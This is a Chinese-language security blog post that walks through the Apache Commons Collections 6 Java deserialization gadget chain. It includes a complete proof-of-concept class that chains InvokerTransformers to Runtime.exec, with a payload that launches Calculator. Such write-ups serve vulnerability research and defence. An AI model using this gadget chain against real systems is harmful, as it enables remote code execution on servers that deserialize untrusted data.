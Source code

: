 # CommonsCollections6链详解

  
  
世界上最好用的 CC 链  
&lt;!--more--&gt;  
## CommonsCollections6 详解  
CommonsCollections1 的链子调用了`LazyMap`类中的`transform()`方法，于是找一个任意类调用`get()`方法的地方，这里换到了`TideMapEntry`类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516691.png)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516403.png)  
这里的`hashCode()`方法里调用了`getValue()`方法里面调用了`get()`方法，并且`map`可控，这里的`hashCode()`很熟悉，因为在`URLDNS`链中`HashMap`类里的`readObject()`方法调用到了`hashCode()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518932.png)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518990.png)  
于是构造`poc`  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections6 {    
    public static void main(String[] args) throws Exception{    
    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, new Object[]{&#34;getRuntime&#34;, null}),    
                new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, null}),    
                new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object, Object&gt; lazymap = LazyMap.decorate(map, new ConstantTransformer(1));    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, &#34;test&#34;);    
    
        HashMap&lt;Object, Object&gt; map2 = new HashMap&lt;&gt;();    
        map2.put(tiedMapEntry,&#34;test1&#34;);    
    
        lazymap.remove(&#34;test&#34;);    
    
        Class c = LazyMap.class;    
        Field factoryField = c.getDeclaredField(&#34;factory&#34;);    
        factoryField.setAccessible(true);    
        factoryField.set(lazymap,chainedTransformer);    
        //serialize(map2);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151528159.png)  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections6%E9%93%BE%E8%AF%A6%E8%A7%A3/  

